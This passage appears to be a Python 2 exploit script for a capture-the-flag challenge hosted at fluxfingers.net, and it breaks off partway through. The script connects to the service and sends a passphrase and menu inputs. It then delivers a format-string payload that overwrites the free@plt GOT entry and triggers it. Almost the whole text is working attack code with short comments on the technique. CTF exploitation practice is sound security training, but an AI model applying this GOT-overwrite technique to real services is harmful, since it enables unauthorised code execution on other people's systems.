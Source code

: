 ```python
#!/usr/bin/python

from socket import *
import time

# connect to remote server
s=socket(AF_INET, SOCK_STREAM)
s.connect(('wildwildweb.fluxfingers.net', 1423))

# receive & print banner
time.sleep(1)
print s.recv(1024)
time.sleep(1)

# send passphrase
s.send('gold>silverb\n')
time.sleep(0.05)
print s.recv(512)

# delete all mines, makes it easier later
s.send('3\n')
s.send('y\n')
time.sleep(0.05)
print s.recv(512)
s.send('3\n')
s.send('y\n')
time.sleep(0.05)
print s.recv(512)
s.send('3\n')
s.send('y\n')
time.sleep(0.05)
print s.recv(512)

# add mine, supply a string format argument which
# overwrites the first two bytes of free@plt pointer
time.sleep(0.05)
s.send('1\n')
time.sleep(0.05)
print s.recv(512)
# we need to write the value 0x85e0, which is 34272 
# in decimal
s.send('%34272c%11$hn\n') 
time.sleep(0.05)
print s.recv(512)

# pointer to free@plt
s.send('AA\x14\xb0\x04\x08CCCC\n')
time.sleep(0.05)
print s.recv(512)

# don't care
s.send('666\n')
time.sleep(0.05)
print s.recv(512)

# invoke Show Profit && trigger format string exploit
s.send('4\n')
time.sleep(0.05)
print s.recv(512)
s.send('y\n')

# receive dummy bytes
for i in range(342):
```
